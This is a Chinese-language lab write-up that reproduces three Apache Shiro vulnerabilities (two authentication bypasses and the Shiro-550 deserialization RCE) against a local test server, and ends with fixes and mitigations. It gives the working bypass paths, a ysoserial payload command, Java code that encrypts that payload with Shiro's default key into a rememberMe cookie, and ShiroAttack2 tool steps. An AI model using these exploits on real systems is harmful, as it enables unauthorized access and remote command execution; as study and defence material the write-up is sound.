

| 项目          | 详情                                                                       |
| ----------- | ------------------------------------------------------------------------ |
| **攻击机**     | Kali Linux（IP：192.168.197.128）                                           |
| **靶机**      | Ubuntu Server 24.04（IP：192.168.197.88）                                   |
| **CVSS 评分** | CVE-2010-3863: 7.5（高危） / CVE-2016-4437: 9.8（严重） / CVE-2020-1957: 7.5（高危） |
| **典型漏洞编号**  | CVE-2010-3863 / CVE-2016-4437（Shiro-550） / CVE-2020-1957                 |
| **影响组件**    | Apache Shiro 1.0.0 / 1.2.4 及以前版本 / 1.5.1 及以前版本                           |
| **漏洞类型**    | 认证绕过 / 反序列化 RCE / 路径解析绕过                                                 |
| **利用条件**    | 特定版本 + 默认密钥未修改（RCE）/ Shiro 与 Spring 组合使用（路径绕过）                           |
| **核心原理**    | URL 标准化处理缺失、AES 默认密钥硬编码导致反序列化、Shiro 与 Spring 对分号解析差异                     |
## 一、漏洞原理

Apache Shiro 是一个强大且易用的 Java 安全框架，执行身份验证、授权、密码和会话管理。由于其广泛使用，Shiro 也成为了安全研究的重点目标。Shiro 的漏洞主要分为**认证绕过**和**反序列化 RCE**两大类。

**认证绕过漏洞**的根源在于 Shiro 与底层 Web 容器（如 Tomcat、Spring）在**URL 路径解析规则上的不一致**。
- **CVE-2010-3863**：早期版本的 Shiro 在权限验证前未对 URL 做标准化处理。攻击者利用 `/./admin` 这种包含相对路径的写法，让 Shiro 认为访问的不是受保护的 `/admin`，从而放行；但底层容器会将其标准化为 `/admin` 并执行，导致未授权访问。
- **CVE-2020-1957**：当 Shiro 与 Spring 结合使用时，Spring 会将 `;` 后面的内容视为路径参数（Path Parameter）并忽略，而 Shiro 会把 `;` 当作普通字符。攻击者构造 `/xxx/..;/admin/`，Shiro 认为访问的是 `/xxx`，直接放行；Spring 解析后实际访问的是 `/admin/`，从而绕过认证。

**反序列化漏洞（CVE-2016-4437，即 Shiro-550）** 是 Shiro 历史上最著名的漏洞。Shiro 提供了“记住我（RememberMe）”功能。当用户勾选记住我时，Shiro 会将用户信息序列化，使用 AES 加密后存入 `rememberMe` Cookie 中。在 Shiro 1.2.4 及以前版本中，这个 AES 加密的**默认密钥硬编码**在源码中（`kPH+bIxk5D2deZiIxcaaaA==`）。攻击者只要知道这个密钥，就可以构造恶意的序列化数据（如 ysoserial 生成的 Gadget 链），加密后放入 `rememberMe` Cookie 发送给服务器。服务器在解密并反序列化该 Cookie 时，就会触发远程代码执行。

---

## 二、漏洞复现

### 1. CVE-2010-3863（早期版本认证绕过）

在 Apache Shiro 1.1.0 以前的版本中，shiro 进行权限验证前未对 url 做标准化处理，攻击者可以构造 `/`、`//`、`/./`、`/../` 等绕过权限验证

**① 正常访问被拦截**

访问受保护的管理页面：
```text wrap
http://192.168.197.88:8080/admin
```
此时会被重定向到登录页面。

**② 构造恶意路径绕过**

将请求路径改为：
```text wrap
http://192.168.197.88:8080/./admin
```
此时 Shiro 匹配不到 `/admin` 规则，直接放行，成功访问到管理页面内容。


### 2. CVE-2016-4437（Shiro-550 反序列化 RCE）

Apache Shiro 1.2.4 及以前版本中，加密的用户信息序列化后存储在名为 remember-me 的 Cookie 中。攻击者可以使用 Shiro 的**默认密钥（硬编码）** 伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

什么是“**硬编码**”？硬编码是指程序员在开发时，把某些数据（比如配置、密码、密钥）**直接写死在源代码里**，而不是在运行时从外部配置文件或环境变量中去读取。

**注意：下面是传统的攻击方法，不需要做，因为可以使用工具！**

**① 生成恶意序列化数据**

使用 ysoserial 生成执行命令的 Payload（注意在低版本 JDK 下运行）：
```text wrap
java8 -jar ysoserial-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

**② 使用默认密钥加密 Payload**

官方文档提供了一段 Java 代码，用于将 `poc.ser` 加密成 Cookie 值：

```java wrap
package org.vulhub.shirodemo;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;
import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;
public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));
        AesCipherService aes = new AesCipherService();
        // Shiro 默认密钥
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));
        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

**③ 发送恶意 Cookie 触发**

复制加密后的字符串，构造如下请求：
```http wrap
GET / HTTP/1.1
Host: 靶机IP:8080
Cookie: rememberMe=<刚才生成的加密字符串>
Connection: close
```

**④ 验证**

进入靶机容器查看命令是否执行：
```text wrap
docker-compose exec shiro ls -l /tmp/success
```
**⑤ 补充：使用shiro_attack工具**

官方下载命令（推荐），它会自动查询并下载最新的 `shiro_attack` 完整包：

```text wrap
curl -s https://api.github.com/repos/SummerSec/ShiroAttack2/releases/latest | \
grep browser_download_url | grep 'bundle.zip' | \
cut -d '"' -f 4 | \
xargs -I {} wget -c {}
```

> **说明**：这条命令会下载包含 `jar`、`lib/` 和 `data/` 的完整压缩包（`*-bundle.zip`），解压后即可直接运行，无需额外配置依赖。

下载完成后使用java8 -jar命令运行（**后面的路径要具体看解压到了哪里**）：
```text wrap
java8 -jar /root/shiro_attack-5.1.1-zulu-8-jfx-bundle/shiro_attack-5.1.1-zulu-8-jfx.jar
```

然后按照下面的步骤依次输入或点击：

1. 指定 Key 并检测：在工具界面找到“指定 Key”输入框，填入 Shiro 最经典的默认硬编码密钥：`kPH+bIxk5D2deZiIxcaaaA==`。
2. 检测当前密钥：点击右侧的“检测当前密钥”。
3. 选择利用链：在“利用链”下拉框中，选择 **`CommonsBeanutils1`**。
4. 检测当前利用链：点击“检测当前利用链”。
5. 观察日志确认成功



6. 执行命令回显：点击下方的“命令执行”标签页，在“输入命令”框中输入 `id`，点击“执行”。工具会在下方直接回显服务器的执行结果。

	至此，已成功获取目标服务器的最高权限，漏洞复现圆满成功。


### 3. CVE-2020-1957（Spring 环境下的认证绕过）

在 Apache Shiro 1.5.2 以前的版本中，在使用 Spring 动态控制器时，攻击者通过构造 `..;` 这样的跳转，可以绕过 Shiro 中对目录的权限限制。

**① 正常访问被拦截**

访问：
```text wrap
http://192.168.197.88:8080/admin/
```
被重定向到登录页面。


**② 利用分号绕过**

构造以下HTTP请求访问：
```http wrap
GET /xxx/..;/admin/ HTTP/1.1
Host: 192.168.197.88:8080
Connection: keep-alive
```
- Shiro 解析：匹配 `/xxx`，无限制，放行。
- Spring 解析：将 `..;` 处理为目录穿越，最终映射到 `/admin/`，成功访问管理页面。


---

## 三、漏洞原理总结

| 漏洞编号 | 漏洞类型 | 核心成因 | 利用特征 |
|---------|---------|---------|---------|
| **CVE-2010-3863** | 认证绕过 | URL 未做标准化 | `/./admin` |
| **CVE-2016-4437** | 反序列化 RCE | AES 密钥硬编码 | Cookie 中包含 `rememberMe=` |
| **CVE-2020-1957** | 认证绕过 | Shiro 与 Spring 分号解析差异 | `/xxx/..;/admin/` |

**核心本质**：
- **认证绕过**往往是因为框架与底层容器在处理请求路径时，采用了**不同的解析标准**，攻击者利用“灰色地带”让鉴权组件和业务组件看到不同的路径。
- **反序列化漏洞**的根源在于**使用了默认的安全配置（硬编码密钥）**。Shiro-550 是典型的“配置不当+反序列化”组合漏洞。

---

## 四、修复方案

| 漏洞 | 修复版本 | 临时措施 |
|------|---------|---------|
| CVE-2010-3863 | Shiro 1.1.0+ | 升级框架，确保权限校验前 URL 已标准化 |
| CVE-2016-4437 | Shiro 1.2.5+ | 升级版本，或**更换自定义的 AES 密钥**，禁用 RememberMe 功能 |
| CVE-2020-1957 | Shiro 1.5.2+ | 升级版本，或配置 WAF 拦截包含 `..;` 等特殊特征的请求 |

**通用建议**：
1. **及时升级 Shiro** 至官方最新安全版本。
2. **绝对不要使用默认的硬编码密钥**。在 `ShiroConfig` 中生成并使用随机的、复杂的 AES 密钥。
3. 在网关或 WAF 层，对路径进行规范化处理，并拦截 `/./`、`..;/` 等异常路径请求。